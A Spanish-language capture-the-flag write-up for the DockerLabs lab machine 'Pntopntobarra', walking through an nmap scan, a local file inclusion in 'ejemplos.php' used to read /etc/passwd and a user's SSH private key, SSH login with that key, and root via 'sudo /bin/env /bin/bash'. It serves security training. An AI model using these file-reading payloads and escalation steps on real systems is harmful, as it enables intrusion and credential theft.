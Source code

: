 ```yaml
---
layout: post
title: "Pntopntobarra"
date: 2024-11-01
 11:10:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pntopntobarra </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Escaneamos los puertos y servicios activos en la maquina.

`sudo nmap -p- --open -sS -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/pntopntobarra/nmap.png){:.margin}

**2\.** En la web podemos ver una advertencia sobre un virus en nuestro sistema.

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/pntopntobarra/80.png){:.margin}

_2.1- Pulse en el primer boton aceptando el buen reto y me peto la maquina, toco reinciarla :'(_

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/pntopntobarra/80fakersituacion.png){:.margin}

_2.2- Vamos por el segundo boton, aqui todo bien; nos fijamos en la url donde aparentemente se acontese un LFI_

`http://172.17.0.2/ejemplos.php?images=./ejemplo1.png`

![img](/notas/public/img/dockerlabs/pntopntobarra/80ejemplo.png){:.margin}

**3\.** Nos aprovechamos del bug para ver el passwd, de ahi sacamos el usuario nico para luego visualizar su clave privada.

`http://172.17.0.2/ejemplos.php?images=/etc/passwd`

`http://172.17.0.2/ejemplo.php?images=/home/nico/.ssh/id_rsa`

![img](/notas/public/img/dockerlabs/pntopntobarra/80ejemplolfi.png){:.margin}
![img](/notas/public/img/dockerlabs/pntopntobarra/80ejemplorsa.png){:.margin}

**4\.** Lo guardamos la clave en un fichero, le damos los permisos pertinentes y luego nos conectamos por ssh.

`nano id_rsa`

`chmod 600 id_rsa`

`ssh -i id_rsa nico@172.17.0.2`

![img](/notas/public/img/dockerlabs/pntopntobarra/nanorsa.png){:.margin}
![img](/notas/public/img/dockerlabs/pntopntobarra/sshnico.png){:.margin}

**5\.** Una vez dentro encuentro un binario SUID, solo nos queda escalar a root podemos hechar un ojo a [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo).

`sudo -l`

`sudo /bin/env /bin/bash`

![img](/notas/public/img/dockerlabs/pntopntobarra/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>